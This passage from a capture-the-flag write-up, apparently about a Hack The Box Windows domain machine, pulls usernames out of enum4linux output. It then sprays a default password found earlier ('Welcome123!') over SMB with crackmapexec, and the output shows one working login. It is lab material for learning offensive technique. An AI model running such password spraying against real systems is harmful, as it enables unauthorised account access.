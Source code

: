 The most juicy bit of information is a password that looks like a default password set upon account creation.

Trying the password with the username `marko` on both SMB and WinRM was not fruitful.

## Password Spraying

With a handful of users and one password, password spraying seems feasible. This is especially true as the password we have seems to be the default password for new accounts. If there are lazy users, we might get a hit.

The first step is to compile a **list of users**.

From our enum4linux output, we have a list of users in the following format:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

We can use the following command to extract the usernames.

`awk -F'[' '{print $2}' namesfromenum.txt | awk -F']' '{print $1}' > users.txt`

Next, let's spray the password `Welcome123!` with `crackmapexec`.

First, let's try spraying SMB.

```
$ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
<SNIP>
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123! 
```
